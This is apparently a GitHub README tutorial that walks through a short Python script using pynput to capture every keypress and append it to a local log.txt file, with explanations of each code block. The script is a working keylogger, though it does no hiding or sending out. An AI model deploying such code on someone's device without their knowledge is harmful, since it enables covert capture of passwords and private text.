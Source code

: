 # Creating and Deploying a Keylogger using Python

## Project Overview

The goal of this project is to develop a simple keylogging application that records keystrokes made on a keyboard and logs them into a text file. This can be useful for various purposes, such as monitoring input for usability studies or debugging.

### Functionality:
- Captures keystrokes made by the user.
- Logs the pressed keys into a file named log.txt.
- Handles special keys like space, Enter, Alt, Tab, and Backspace with specific representations.

### Key Features:
- Logs each keypress event.
- Differentiates between regular and special keys.
- Provides a clean and readable format for special key events.
- Continuously runs in the background to capture keystrokes.

## Objectives
- Importing Required Module
- Defining 'log-keystroke' Function
- Handling Special Keys
- Logging The Key Strokes
- Starting Key Listener

## Technologies Used

#### Python:
Role: The programming language used to write the keylogging application.
Features:
High-level and easy to read.
Extensive libraries and modules for various tasks.

##### pynput Library:
Role: Provides functionality to monitor and control input devices like keyboards.
Features:
Listener class to detect and respond to keyboard events.
Handles special keys and their events.

#### File I/O Operations:
Role: Used to write the captured keystrokes to a text file.
Features:
open function to create or append to log.txt.
write method to log keystrokes into the file.

## Deployment Steps
### 1. Importing Required Modules
    
    from pynput.keyboard import Listener

This line imports the Listener class from the pynput.keyboard module. pynput is a library used to control and monitor input devices like the keyboard and mouse in Python. The Listener class allows us to monitor keyboard events such as key presses.

### 2. Defining 'log-keystroke' Function

    def log_keystroke(key):
        key = str(key).replace("'", "")

This is the beginning of a function called log_keystroke, which will handle each key press event.

<b>key = str(key).replace("'", ""):</b>

The key parameter represents the key that was pressed. It's converted to a string, and any single quotes (') are removed. This is done because keys are often represented as strings in the form "'a'", and we want to clean this up for easier reading and logging.

### 3. Handling Special Keys

    if key == 'Key.space':
        key = ' '
    if key == 'Key.shift_r':
        key = ''
    if key == "Key.enter":
        key = '\n'
    if key == 'Key.alt_l' or key == 'Key.alt_r':
        key = ''
    if key == 'Key.tab':
        key = ''
    if key == 'Key.backspace':
        key = ''

This part of the code checks if the pressed key is a special key and replaces it with a corresponding character:

<b>if key == 'Key.space': key = ' '</b>

If the pressed key is the space bar (Key.space), it replaces it with an actual space character (' ').

<b>if key == 'Key.shift_r': key = ''</b>

If the pressed key is the right Shift key (Key.shift_r), it replaces it with an empty string. The Shift key by itself does not produce any character, so it's effectively ignored.

<b>if key == "Key.enter": key = '\n'</b>

If the pressed key is the Enter key (Key.enter), it replaces it with a newline character ('\n').

<b>if key == 'Key.alt_l' or key == 'Key.alt_r': key = ''</b>

If the pressed key is the left or righ Alt key (Key.alt_r) or (Key.alt_l), it replaces it with an empty string.

<b>if key == 'Key.tab': key = ''</b>

If the pressed key is the tab key (Key.tab), it replaces it with an empty string.

<b>if key == 'Key.backspace': key = ''</b>

If the pressed key is the backspace key (Key.backspace), it replaces it with an empty string.

### 4. Logging The Keystrokes
      
      with open("log.txt", 'a') as f:
        f.write(key)
This part of the function opens a file named log.txt in append mode ('a').
<b>with open("log.txt", 'a') as f:</b>
This line writes the processed key (after any necessary replacements) to the file. Each key press is logged sequentially.

### 5. Starting the Key Listner
    with Listener(on_press=log_keystroke) as l:
    l.join()
This part of the code sets up the keyboard listener:
<b>with Listener(on_press=log_keystroke) as l:</b>
A Listener object is created, and the on_press event is tied to the log_keystroke function. This means that every time a key is pressed, the log_keystroke function will be called.
<b>l.join()</b>
The join() method is called on the listener, which makes the program wait for keyboard events indefinitely. The program will continue to run, logging all keystrokes until it is manually stopped.

## Summary

This script sets up a basic keylogger that captures every key pressed and writes it to a file named log.txt. It handles regular characters, as well as some special keys like space, shift, and enter, tab and alt. The pynput library is used to monitor the keyboard, and the listener runs indefinitely, capturing and logging each key press.


        
